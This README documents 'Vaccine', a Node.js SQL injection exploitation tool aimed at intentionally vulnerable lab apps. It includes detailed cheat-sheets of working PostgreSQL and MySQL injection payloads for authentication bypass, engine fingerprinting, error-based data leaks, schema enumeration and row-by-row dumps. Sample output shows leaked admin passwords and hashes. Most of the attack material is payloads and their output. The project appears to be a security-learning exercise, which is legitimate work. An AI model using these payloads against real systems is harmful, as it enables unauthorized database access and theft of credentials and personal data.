

# Vaccine

SQL injection detection & exploitation tool. Given a URL with a query parameter,
it confirms the parameter is injectable, fingerprints the database engine, then
enumerates and dumps the backend. Written in JavaScript.

Test targets:
- PostgreSQL: [VWAD entry](https://vwad.owasp.org/app/vulnbank/) · [vulnbank](https://vulnbank.org/) · [repo](https://github.com/Commando-X/vuln-bank)
- MySQL: [VWAD entry](https://vwad.owasp.org/app/secdevlabs/) · [repo](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2021-apps/a3/copy-n-paste)


## Usage

```
./vaccine [-X GET|POST] [-o FILE] URL
```

`./vaccine` is an executable wrapper (`#!/usr/bin/env node`) that runs
`src/vaccine.js`. Requires Node.js (uses the built-in `node:sqlite` module,
Node ≥ 22).

| Option | Meaning | Default |
| --- | --- | --- |
| `-X` / `-x` | HTTP method (`GET` or `POST`) | `GET` |
| `-o` / `-O` | SQLite output file (created if missing) | `vaccine.sqlite` |
| `URL` | Target URL **with at least one query parameter** | — |

The **first** query parameter is the one attacked. For `POST`, the query
parameters are serialized into a JSON request body.

Three interchangeable ways to invoke it:

```bash
# executable wrapper
./vaccine -X POST "http://localhost:5000/login?username=test&password=test"

# npm script
npm run vaccine -- -X POST "http://localhost:10001/login?user=test&pass=test"

# node directly
node src/vaccine.js -X POST "http://localhost:5000/login?username=test&password=test"
```

### Spinning up the targets

The top-level `Makefile` wraps both bundled docker-compose stacks.

**PostgreSQL — vuln-bank** (http://localhost:5000):
```bash
make postgresql        # build + start
make postgresql-up     # start (no rebuild)
make postgresql-down   # stop
make postgresql-clean  # stop + wipe volumes
make postgresql-re     # clean + rebuild
```

**MySQL — copy-n-paste** (http://localhost:10001):
```bash
make mysql             # build + start + seed the DB
make mysql-down        # stop + wipe volumes
```

Or drive both at once:
```bash
make all     # start both targets
make clean   # tear both down
```

## How it works

1. **Injectable detection** (`injectable.js`) — sends paired probes and compares
   responses to find the escape context: single quote `'`, double quote `"`, or
   numeric (no quote). A truthy payload must look like the original response
   while a falsy one must differ.
2. **Fingerprint** (`fingerprint.js`) — boolean-based. Injects an engine-unique
   expression (e.g. `version() LIKE 'PostgreSQL%'`) and checks whether the page
   matches the known-true page. Detects MySQL, PostgreSQL, Oracle, SQLite, MSSQL.
3. **Enumeration & dump** — error-based, one suite per engine, both walking
   database name → tables → columns → row-by-row dump:
   - PostgreSQL (`suitePostgresql.js`) casts leaked text to `int` so the engine
     echoes the value inside its `invalid input syntax` error message.
   - MySQL (`suiteMySql.js`) wraps the value in `extractvalue()` so the engine
     leaks it inside its `XPATH syntax error` message. Because `extractvalue()`
     reports at most 32 characters, long values are read in 31-char `MID()`
     slices and stitched back together.

Every confirmed finding (parameter, payload, technique) plus the recovered
schema and dumped rows is persisted to the SQLite store.

## Manual injection cheat-sheet POSTGRESQL (Vuln-bank)

### Boolean — confirm injection / auth bypass
First start with classic `'` test

```
test'
```
→ If the error is different then `'` was injected into the query.

Then we can try:

```
test' OR 1=1-- 42
```
→ Query becomes always-true

```
test' AND 1=2-- 42
```
→ Always-false. The true/false split is what confirms injectability.

### Boolean — engine fingerprint
We first run a true page like `test' OR 1=1-- 42` to get the baseline

```
test' OR version() LIKE 'PostgreSQL%'-- 42
```
→ If the above is evaluated to true, it will behaves like the true page ⇒ engine is PostgreSQL.

### Error-based — leak scalar values
We use error based CAST to force an error (here we attempt to cast a string to an int).

```python
# Get version
test' AND 1=CAST(version() AS int)-- 42
```
→ `invalid input syntax for type integer: "PostgreSQL 13.23 (Debian 13.23-1.pgdg13+1) on x86_64-pc-linux-gnu, ..."`

```python
# Get database name
test' AND 1=CAST(current_database() AS int)-- 42
```
→ `invalid input syntax for type integer: "vulnerable_bank"`

### Error-based — enumerate schema

List tables in the `public` schema:
```python
# Get tables
test' AND 1=CAST((SELECT string_agg(table_name,',') FROM information_schema.tables WHERE table_schema='public') AS int)-- 42
```
→ `... : "users,loans,transactions,virtual_cards,card_transactions,merchants,merchant_payments,bill_categories,billers,bill_payments"`

List columns of a table (here `users`):
```python
# Get columns per table
test' AND 1=CAST((SELECT string_agg(column_name,',') FROM information_schema.columns WHERE table_name='users') AS int)-- 42
```
→ `... : "id,username,password,account_number,balance,is_admin,profile_picture,reset_pin,bio,is_suspended"`

### Error-based — dump rows

One row at a time via `LIMIT 1 OFFSET N`, columns joined with the `~|~`
separator the tool parses. Dump row `0` of `users` (plaintext passwords):
```python
# Get row per table
test' AND 1=CAST((SELECT COALESCE(CAST("id" AS text),'NULL')||'~|~'||COALESCE(CAST("username" AS text),'NULL')||'~|~'||COALESCE(CAST("password" AS text),'NULL')||'~|~'||COALESCE(CAST("account_number" AS text),'NULL')||'~|~'||COALESCE(CAST("balance" AS text),'NULL')||'~|~'||COALESCE(CAST("is_admin" AS text),'NULL') FROM users ORDER BY 1 LIMIT 1 OFFSET 0) AS int)-- 42
```
→ `... : "1~|~admin~|~admin123~|~ADMIN001~|~1000000.00~|~true"` (plaintext password leaked)

Dump row `33` of `billers` (increment `OFFSET` to walk the table):
```
test' AND 1=CAST((SELECT COALESCE(CAST("id" AS text),'NULL')||'~|~'||COALESCE(CAST("category_id" AS text),'NULL')||'~|~'||COALESCE(CAST("name" AS text),'NULL')||'~|~'||COALESCE(CAST("account_number" AS text),'NULL')||'~|~'||COALESCE(CAST("description" AS text),'NULL')||'~|~'||COALESCE(CAST("minimum_amount" AS text),'NULL')||'~|~'||COALESCE(CAST("maximum_amount" AS text),'NULL')||'~|~'||COALESCE(CAST("is_active" AS text),'NULL') FROM billers ORDER BY 1 LIMIT 1 OFFSET 33) AS int)-- 42
```
→ `... : "40~|~2~|~CableTV Plus~|~CABLE001~|~Cable TV Services~|~30.00~|~NULL~|~true"`

## Manual injection cheat-sheet MYSQL (copy-n-paste)

The `user` parameter lands inside `select * from Users where username = '<user>'`,
so the escape context is a single quote `'`.

### Boolean — confirm injection / auth bypass
First start with classic `'` test

```
admin'
```
→ `Error 1064: You have an error in your SQL syntax; ... near ''admin''' at line 1`.
A broken quote raising a syntax error proves `'` was injected into the query.

Then we can try:

```
admin' OR 1=1-- 42
```
→ Query becomes always-true

```
admin' AND 1=2-- 42
```
→ Always-false. The true/false split is what confirms injectability.

### Boolean — engine fingerprint
We first run a true page like `admin' OR 1=1-- 42` to get the baseline

```
admin' OR CONNECTION_ID()=CONNECTION_ID()-- 42
```
→ If the above is evaluated to true, it will behave like the true page ⇒ engine is MySQL/MariaDB.

### Error-based — leak scalar values
We wrap the value in `extractvalue()`; the invalid XPATH (marked with `0x7e` = `~`)
forces the engine to echo it inside the error.

```python
# Get database name
admin' AND extractvalue(1,concat(0x7e,database()))-- 42
```
→ `Error 1105: XPATH syntax error: '~a1db'`

```python
# Get version
admin' AND extractvalue(1,concat(0x7e,version()))-- 42
```
→ `Error 1105: XPATH syntax error: '~10.6.3-MariaDB-1:10.6.3+mari...'`

`extractvalue()` reports at most 32 chars (the `~` marker + 31 chars), so MariaDB
truncates and appends `...`. Read past the cap with `MID(expr, offset, 31)`,
incrementing `offset` by 31 each time and stitching the slices together:

```python
# Second 31-char slice of version()
admin' AND extractvalue(1,concat(0x7e,MID((SELECT version()),32,31)))-- 42
```

### Error-based — enumerate schema

List tables in the current database:
```python
# Get tables
admin' AND extractvalue(1,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema=database())))-- 42
```
→ `... : '~products,credit_cards,secret...'` (truncated at 31 chars — walk with `MID` for the rest)

List columns of a table (here `Users`):
```python
# Get columns per table
admin' AND extractvalue(1,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='Users')))-- 42
```
→ `... : '~ID,Username,Password'`

### Error-based — dump rows

One row at a time via `LIMIT 1 OFFSET N`, columns joined with the `~|~`
separator the tool parses, read in 31-char slices. Dump slice `0` of row `0`
of `Users` (bcrypt password hash):
```python
# Get row per table
admin' AND extractvalue(1,concat(0x7e,MID((SELECT CONCAT(IFNULL(CAST(`ID` AS CHAR),'NULL'),'~|~',IFNULL(CAST(`Username` AS CHAR),'NULL'),'~|~',IFNULL(CAST(`Password` AS CHAR),'NULL')) FROM `Users` LIMIT 1 OFFSET 0),1,31)))-- 42
```
→ `... : '~1~|~admin~|~$2a$14$0qozptyjLJl9'` (increment the `MID` offset by 31 to read the rest of the row, and `OFFSET` to walk rows)

## Database schema

Results are persisted to a SQLite file (`vaccine.sqlite` by default). A scan owns
its vulnerabilities and the enumerated backend schema (databases → tables →
columns → dumped rows).



`ROW_DUMP.data` holds one dumped record per row as a JSON object
(`{"id":"1","username":"admin",...}`).

## Verifying the stored data

After a run, open the store with the `sqlite3` CLI (`sqlite3 vaccine.sqlite`, or
whatever you passed to `-o`) and inspect what was persisted.

```bash
sqlite3 vaccine.sqlite          # open the store
# inside the prompt:
.tables                         # list the 6 tables
.headers on                     # show column names in results
.mode column                    # aligned output
```

**Scans** — every URL that was confirmed injectable:
```sql
SELECT id, url, method, db_engine, created_at FROM SCAN;
```

**Vulnerabilities** — the injectable parameter, payload, and technique per scan:
```sql
SELECT scan_id, parameter, technique, payload FROM VULNERABILITY;
```

**Enumerated schema** — database → tables → columns for the latest scan:
```sql
-- database name(s)
SELECT name FROM DB_NAME WHERE scan_id = (SELECT max(id) FROM SCAN);

-- tables of that database
SELECT t.name AS "table"
FROM TBL_NAME t
JOIN DB_NAME d ON d.id = t.db_id
WHERE d.scan_id = (SELECT max(id) FROM SCAN);

-- columns grouped by table
SELECT t.name AS "table", c.name AS "column"
FROM COL_NAME c
JOIN TBL_NAME t ON t.id = c.tbl_id
ORDER BY t.name;
```

**Dumped rows** — the actual leaked data (one JSON object per row):
```sql
SELECT t.name AS "table", r.row_index, r.data
FROM ROW_DUMP r
JOIN TBL_NAME t ON t.id = r.tbl_id
ORDER BY t.name, r.row_index;
```

Full picture in a single query — every finding joined together:
```sql
SELECT s.db_engine, d.name AS db, t.name AS "table", r.row_index, r.data
FROM SCAN s
JOIN DB_NAME  d ON d.scan_id = s.id
JOIN TBL_NAME t ON t.db_id  = d.id
JOIN ROW_DUMP r ON r.tbl_id = t.id
ORDER BY s.id, t.name, r.row_index;
```

One-liner from the shell (no interactive prompt):
```bash
sqlite3 -header -column vaccine.sqlite "SELECT scan_id, parameter, technique FROM VULNERABILITY;"
```

## Project layout

| File | Role |
| --- | --- |
| `vaccine` | Executable wrapper (`#!/usr/bin/env node`) → `src/vaccine.js` |
| `src/vaccine.js` | Entry point — orchestrates the pipeline |
| `src/setting.js` | Argument / URL parsing, `Setting` object |
| `src/injectable.js` | Injectability detection + escape context |
| `src/fingerprint.js` | Boolean-based engine fingerprint |
| `src/suitePostgresql.js` | PostgreSQL error-based enumeration & dump |
| `src/suiteMySql.js` | MySQL error-based enumeration & dump |
| `src/http.js` | GET/POST request helper |
| `src/database.js` | SQLite persistence layer |
| `src/helper.js` | Query mutation, response comparison, cleanup |
| `src/logger.js` | Colored console output |

## Resources
- [Detect database fingerprint](https://www.sqlinjection.net/database-fingerprinting/)
- [PostgreSQL injection payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/PostgreSQL%20Injection/)
- [MySQL injection payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/)
- [Juice Shop companion guide](https://pwning.owasp-juice.shop/companion-guide/latest/)
